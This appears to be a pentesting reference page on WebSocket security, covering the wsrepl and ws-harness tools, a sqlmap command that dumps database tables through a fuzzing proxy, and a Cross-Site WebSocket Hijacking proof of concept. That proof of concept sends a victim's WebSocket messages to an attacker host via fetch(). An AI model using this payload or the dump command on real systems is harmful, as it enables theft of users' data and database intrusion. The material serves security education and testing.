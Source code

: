 # Web Sockets

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server

## Summary

* [Tools](#tools)
* [Exploit](#exploit)
  * [Using wsrepl](#using-wsrepl)
  * [Using ws-harness.py](#using-ws-harness-py)
* [Cross-Site WebSocket Hijacking (CSWSH)](#cross-site-websocket-hijacking-cswsh)
* [Labs](#labs)
* [References](#references)


## Tools

* [doyensec/wsrepl](https://github.com/doyensec/wsrepl) - WebSocket REPL for pentesters
* [mfowl/ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)


## Exploit

### Using wsrepl

`wsrepl`, a tool developed by Doyensec, aims to simplify the auditing of websocket-based apps. It offers an interactive REPL interface that is user-friendly and easy to automate. The tool was developed during an engagement with a client whose web application heavily relied on WebSockets for soft real-time communication.

wsrepl is designed to provide a balance between an interactive REPL experience and automation. It is built with Python’s TUI framework Textual, and it interoperates with curl’s arguments, making it easy to transition from the Upgrade request in Burp to wsrepl. It also provides full transparency of WebSocket opcodes as per RFC 6455 and has an automatic reconnection feature in case of disconnects.

```ps1
pip install wsrepl
wsrepl -u URL -P auth_plugin.py
```

Moreover, wsrepl simplifies the process of transitioning into WebSocket automation. Users just need to write a Python plugin. The plugin system is designed to be flexible, allowing users to define hooks that are executed at various stages of the WebSocket lifecycle (init, on_message_sent, on_message_received, ...).

```py
from wsrepl import Plugin
from wsrepl.WSMessage import WSMessage

import json
import requests

class Demo(Plugin):
    def init(self):
        token = requests.get("https://example.com/uuid").json()["uuid"]
        self.messages = [
            json.dumps({
                "auth": "session",
                "sessionId": token
            })
        ]

    async def on_message_sent(self, message: WSMessage) -> None:
        original = message.msg
        message.msg = json.dumps({
            "type": "message",
            "data": {
                "text": original
            }
        })
        message.short = original
        message.long = message.msg

    async def on_message_received(self, message: WSMessage) -> None:
        original = message.msg
        try:
            message.short = json.loads(original)["data"]["text"]
        except:
            message.short = "Error: could not parse message"

        message.long = original
```


### Using ws-harness.py

Start `ws-harness` to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{
    "auth_user":"dGVzda==",
    "auth_pass":"[FUZZ]"
}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## Cross-Site WebSocket Hijacking (CSWSH)

If the WebSocket handshake is not correctly protected using a CSRF token or a
nonce, it's possible to use the authenticated WebSocket of a user on an
attacker's controlled site because the cookies are automatically sent by the
browser. This attack is called Cross-Site WebSocket Hijacking (CSWSH).

Example exploit, hosted on an attacker's server, that exfiltrates the received
data from the WebSocket to the attacker:

```html
<script>
  ws = new WebSocket('wss://vulnerable.example.com/messages');
  ws.onopen = function start(event) {
    ws.send("HELLO");
  }
  ws.onmessage = function handleReply(event) {
    fetch('https://attacker.example.net/?'+event.data, {mode: 'no-cors'});
  }
  ws.send("Some text sent to the server");
</script>
```

You have to adjust the code to your exact situation. E.g. if your web
application uses a `Sec-WebSocket-Protocol` header in the handshake request,
you have to add this value as a 2nd parameter to the `WebSocket` function call
in order to add this header.


## Labs

* [PortSwigger Labs for Web Sockets](https://portswigger.net/web-security/all-labs#http-request-smuggling)


## References

- [HACKING WEB SOCKETS: ALL WEB PENTEST TOOLS WELCOMED by Michael Fowl | Mar 5, 2019](https://web.archive.org/web/20190306170840/https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Qualys - Mike Shema, Sergey Shekyan, Vaagn Toukharian](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
- [Mini WebSocket CTF - January 27, 2020 - Snowscan](https://snowscan.io/bbsctf-evilconneck/#)
- [Hacktricks - CSWSH](https://book.hacktricks.xyz/pentesting-web/cross-site-websocket-hijacking-cswsh)
- [Streamlining Websocket Pentesting with wsrepl - Andrez Konstantinov - 18 Jul 2023](https://blog.doyensec.com/2023/07/18/streamlining-websocket-pentesting-with-wsrepl.html)